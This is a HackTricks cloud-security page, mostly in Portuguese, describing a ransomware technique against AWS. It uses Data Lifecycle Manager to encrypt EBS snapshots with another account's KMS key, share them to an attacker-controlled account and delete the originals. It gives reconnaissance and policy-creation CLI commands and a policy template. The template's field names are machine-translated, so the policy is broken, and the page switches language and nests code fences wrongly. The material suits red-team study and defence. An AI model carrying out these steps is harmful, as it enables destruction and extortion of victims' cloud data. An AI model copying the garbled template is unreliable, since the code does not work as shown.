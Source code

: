 # AWS - Gerenciador de Ciclo de Vida de Dados

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você quiser ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>

## Gerenciador de Ciclo de Vida de Dados (DLM)

### `EC2:DescribeVolumes`, `DLM:CreateLifeCyclePolicy`

Um ataque de ransomware pode ser executado criptografando o maior número possível de volumes EBS e, em seguida, apagando as instâncias EC2 atuais, volumes EBS e snapshots. Para automatizar essa atividade maliciosa, pode-se empregar o Amazon DLM, criptografando os snapshots com uma chave KMS de outra conta da AWS e transferindo os snapshots criptografados para uma conta diferente. Alternativamente, eles podem transferir snapshots sem criptografia para uma conta que gerenciam e então criptografá-los lá. Embora não seja direto criptografar volumes EBS ou snapshots existentes diretamente, é possível fazê-lo criando um novo volume ou snapshot.

Primeiramente, será utilizado um comando para reunir informações sobre volumes, como ID da instância, ID do volume, status de criptografia, status de anexo e tipo de volume.
```aws ec2 describe-volumes```

Secondly, one will create the lifecycle policy. This command employs the DLM API to set up a lifecycle policy that automatically takes daily snapshots of specified volumes at a designated time. It also applies specific tags to the snapshots and copies tags from the volumes to the snapshots. The policyDetails.json file includes the lifecycle policy's specifics, such as target tags, schedule, the ARN of the optional KMS key for encryption, and the target account for snapshot sharing, which will be recorded in the victim's CloudTrail logs.


```bash
```
aws dlm create-lifecycle-policy --description "Minha primeira política" --state ENABLED --execution-role-arn arn:aws:iam::12345678910:role/AWSDataLifecycleManagerDefaultRole --policy-details file://policyDetails.json
```
```

A template for the policy document can be seen here:
```bash
```json
{
   "TipoPolitica": "GERENCIAMENTO_SNAPSHOT_EBS",
   "TiposRecursos": [
      "VOLUME"
   ],
   "TagsAlvo": [
      {
         "Chave": "ChaveExemplo",
         "Valor": "ValorExemplo"
      }
   ],
   "Agendamentos": [
      {
         "Nome": "SnapshotsDiarios",
         "CopiarTags": true,
         "TagsAdicionais": [
            {
               "Chave": "CriadorSnapshot",
               "Valor": "DLM"
            }
         ],
         "TagsVariaveis": [
            {
               "Chave": "CentroCusto",
               "Valor": "Financeiro"
            }
         ],
         "RegraCriacao": {
            "Intervalo": 24,
            "UnidadeIntervalo": "HORAS",
            "Horarios": [
               "03:00"
            ]
         },
         "RegraRetencao": {
            "Contagem": 14
         },
         "RegraRestauracaoRapida": {
            "Contagem": 2,
            "Intervalo": 12,
            "UnidadeIntervalo": "HORAS"
         },
         "RegrasCopiaInterRegiao": [
            {
               "RegiaoAlvo": "us-west-2",
               "Criptografado": true,
               "ArnCmk": "arn:aws:kms:us-west-2:123456789012:key/seu-id-chave-kms",
               "CopiarTags": true,
               "RegraRetencao": {
                  "Intervalo": 1,
                  "UnidadeIntervalo": "DIAS"
               }
            }
         ],
         "RegrasCompartilhamento": [
            {
               "ContasAlvo": [
                  "123456789012"
               ],
               "IntervaloDescompartilhamento": 30,
               "UnidadeIntervaloDescompartilhamento": "DIAS"
            }
         ]
      }
   ],
   "Parametros": {
      "ExcluirVolumeInicial": false
   }
}
```
```

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
